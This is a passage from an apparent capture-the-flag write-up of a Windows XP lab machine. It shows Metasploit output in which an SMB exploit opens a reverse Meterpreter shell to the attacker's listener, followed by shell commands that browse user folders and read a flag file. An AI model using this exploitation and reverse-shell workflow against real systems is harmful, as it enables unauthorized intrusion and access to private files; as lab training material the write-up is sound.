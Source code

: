 ```
[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] 10.129.109.83:445 - Automatically detecting the target...
[*] 10.129.109.83:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.109.83:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.109.83:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.129.109.83
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.109.83:1041) at 2023-09-22 20:58:54 +0200

(Meterpreter 1)(C:\WINDOWS\system32) > shell
Process 1524 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>echo %username%
echo %username%
LEGACY$

C:\WINDOWS\system32>cd "C:\Documents and Settings\"
cd "C:\Documents and Settings\"

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:07 ��    <DIR>          Administrator
16/03/2017  08:29 ��    <DIR>          All Users
16/03/2017  08:33 ��    <DIR>          john
               0 File(s)              0 bytes
               5 Dir(s)   6.296.023.040 bytes free

C:\Documents and Settings>type john\Desktop\user.txt
type john\Desktop\user.txt
e[...SNIP...]f
```
We can see that we are logged with the user `LEGACY$` and this user has the right to read the flag file located in the `john` folder. Let's look if it has the rights to read the content of the Administrator folder:
```
C:\Documents and Settings>cd Administrator
cd Administrator

C:\Documents and Settings\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\Administrator

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:18 ��    <DIR>          Desktop
16/03/2017  09:07 ��    <DIR>          Favorites
16/03/2017  09:07 ��    <DIR>          My Documents
16/03/2017  08:20 ��    <DIR>          Start Menu
               0 File(s)              0 bytes
               6 Dir(s)   6.297.096.192 bytes free
```